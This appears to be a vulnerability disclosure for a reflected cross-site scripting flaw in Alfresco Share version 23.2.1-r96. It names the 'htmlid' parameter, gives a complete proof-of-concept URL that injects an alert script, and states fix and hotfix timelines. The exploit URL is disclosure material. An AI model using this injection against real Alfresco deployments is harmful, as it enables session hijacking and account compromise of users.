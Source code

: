 Vulnerability: Reflected XSS
Note: The version and user below are the what was used. Other users and versions may be affected.
Requirements: It is likely the URL will not work unless you replace the GUID following the spacestore with one created in your test environment.
Version: 23.2.1-r96
Authenticated: Yes
User: Admin (possibly others)
Vulnerable Parameter: htmlid

https://192.168.1.102/share/service/components/folder-details/folder-metadata?nodeRef=workspace://SpacesStore/32a28673-6bbf-46b2-b533-e6220a94acf0&htmlid=template_x002e_folder-metadata_x002e_folder-details_x0023_default%22%3e%3cscript%3ealert(1)%3c%2fscript%3e

Fix will be in release of ACS 23.3 scheduled for October 2024
Hotfixes for ACS 23.1, 23.2, 7.2.2.x, 7.3.2.x and 7.4.2.x are aimed at being released by the end of June 2024.




![](https://github.com/4rdr/proofs/blob/main/gifs/Alfresco_Reflected_XSS_via_htmlid_parameter.gif?raw=true)
